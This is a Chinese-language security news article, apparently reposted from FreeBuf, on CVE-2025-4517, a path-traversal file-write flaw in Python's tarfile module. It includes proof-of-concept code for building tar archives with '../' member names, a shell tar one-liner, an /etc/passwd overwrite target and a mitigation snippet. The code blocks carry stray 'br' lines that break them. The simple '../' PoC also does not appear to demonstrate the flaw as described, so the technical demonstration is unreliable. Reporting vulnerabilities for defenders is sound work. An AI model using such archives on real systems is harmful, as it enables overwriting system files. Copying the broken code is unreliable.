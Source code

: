 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkwMTQyODI4Ng==&mid=2247497115&idx=3&sn=228ace9e52b723b17411f2f534d92f5b

#  Python标准库tarfile模块存在任意文件写入高危漏洞，PoC已公开  
 网络安全与人工智能研究中心   2025-06-28 02:39  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/ezpQRXtYHibykdgfR7Bfd3D5gQ9smYkhUSicwuicfUyAydJhQTRo5N6XPD9LxvGALWdC7ZZVI2R6skN0r8WUhrjcA/640?wx_fmt=gif&from=appmsg "")  
  
  
安全研究人员发现Python标准库中的tarfile模块存在高危漏洞（CVE-2025-4517，CVSS评分9.4）。该漏洞允许攻击者通过特制的tar压缩包实现任意文件写入（Arbitrary File Write），目前概念验证代码（PoC）已在技术社区流传。  
  
  
**Part01**  
  
### 漏洞概述  
  
  
  
CVE-2025-4517是Python的  
tarfile  
模块中存在的一个严重漏洞，影响Python 3.12及更高版本。该漏洞允许在使用  
filter="data"  
参数进行解压时，在解压目录之外执行任意的文件系统写入操作。  
  
  
当用户使用  
tarfile  
模块通过  
TarFile.extractall()  
或  
TarFile.extract()  
方法提取不受信任的tar归档文件，并将  
filter  
参数设置为  
"data"  
或  
"tar"  
时，会受到影响。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ezpQRXtYHibwpXMNl16ibj6lYK4CFmqtsXptrYBNCCLiaAS1ICWE7IsJB4tJ0wX7COEXicoUvODyapo06zNt7evBwg/640?wx_fmt=png&from=appmsg "")  
  
  
**Part02**  
  
### 技术细节  
  
  
###   
  
当使用  
TarFile.extractall  
或  
TarFile.extract  
配合  
filter="data"  
或  
filter="tar"  
处理不受信任的tar归档文件时，攻击者可利用此漏洞向文件系统的任意位置写入文件。  
  
  
该漏洞的根源在于：虽然  
data  
过滤器本应通过阻止tar归档内危险目标（如符号链接或设备文件）来提供防护，但其未能有效防范路径遍历攻击。这意味着精心构造的tar归档文件可将文件写入预期解压目录之外。  
  
**Python官方已将该漏洞的CVSS v3.1基础评分定为9.4（严重），其向量字符串为CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L。**  
###   
  
  
**Part03**  
  
### 风险关键点  
  
  
此漏洞对源码分发包安装的影响较小，因为该场景本身允许代码执行。但若通过程序处理来自用户、自动化流程或上传的任意 tar 文件，则存在风险。  
  
  
假设恶意tar文件包含以下路径：  
  

```
../../../../etc/passwd
```

  
  
若未正确校验，解压时将覆写  
/etc/passwd  
或目标目录外的任意文件。  
  
"data"  
和  
"tar"  
过滤器本应对输出进行清理，但因此缺陷，其无法阻止包含目录遍历的文件名。  
  
假设存在以下代码：  
  

```
import tarfile
br
with tarfile.open('archive.tar', 'r') as tar:
    # filter=&#34;data&#34; is the new recommended/safe default, right? (not anymore!)
    tar.extractall(path=&#34;safe_folder&#34;, filter=&#34;data&#34;)
```

  
  
那么，精心构造的archive.tar可包含   
  
../../outside.txt  
类文件，会导致向父目录写入。  
  
通过Python  
复现漏洞的方式如下：  
  

```
import tarfile
br
with tarfile.open('malicious.tar', 'w') as tar:
    import io
    info = tarfile.TarInfo(&#34;../../outside.txt&#34;)
    data = b&#34;This should not be here!&#34;
    info.size = len(data)
    tar.addfile(info, io.BytesIO(data))
```

  
  
通过shell生成复现漏洞的方式如下：  
  

```
echo &#34;Evil!&#34; > evil.txt
tar cvf malicious.tar --transform='s/^/..\/..\/..\/../' evil.txt
```

  
  
使用存在漏洞的代码解压时，将在"safe_folder"的三级父目录写入 outside.txt。  
  
  
**Part04**  
  
### 漏洞影响  
  
  
###   
  
- **任意文件系统写入**  
：攻击者可覆写敏感文件（SSH 密钥、系统配置等）  
  
- **权限提升**  
：若Python脚本以root运行，后果可能是灾难性的。  
  
- **模式普遍性**  
：这种“解压即忘”模式存在于大量代码库，而 
```
&#34;data&#34;
```

  
 本应是安全默认值  
  
  
  
  
**Part05**  
  
### 缓解措施与解决方案  
  
  
1、短期解决此问题，可  
自主验证归档内容或使用强化解压，  
此方案至少可检测并阻止路径遍历，具体代码如下：  
  

```
import os
import tarfile
br
def is_within_directory(directory, target):
    abs_directory = os.path.abspath(directory)
    abs_target = os.path.abspath(target)
    return abs_target.startswith(abs_directory + os.sep)
br
with tarfile.open('archive.tar', 'r') as tar:
    for member in tar.getmembers():
        member_path = os.path.join(&#34;safe_folder&#34;, member.name)
        if not is_within_directory(&#34;safe_folder&#34;, member_path):
            raise Exception(&#34;Attempted Path Traversal in Tar File&#34;)
    tar.extractall(&#34;safe_folder&#34;, filter=&#34;data&#34;)
```

  
  
2、  
长期解决方案是升级到已修复该漏洞的Python版本。  
  
  
**参考来源：**  
  
Critical Python Tarfile Flaw (CVE-2025-4517, CVSS 9.4): Arbitrary File Write, PoC Available  
  
https://securityonline.info/critical-python-tarfile-flaw-cve-2025-4517-cvss-9-4-arbitrary-file-write-poc-available/  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ezpQRXtYHibykdgfR7Bfd3D5gQ9smYkhUMk71re53Z8Xju62nS9agGCNgUNjPibQP7YZthr22UXppftxLN0kp97A/640?wx_fmt=png&from=appmsg "")  
###   
  
  
来源｜“FreeBuf”微信公众号  
  
编辑｜音叶泽  
  
审核｜秦川原  
  
  
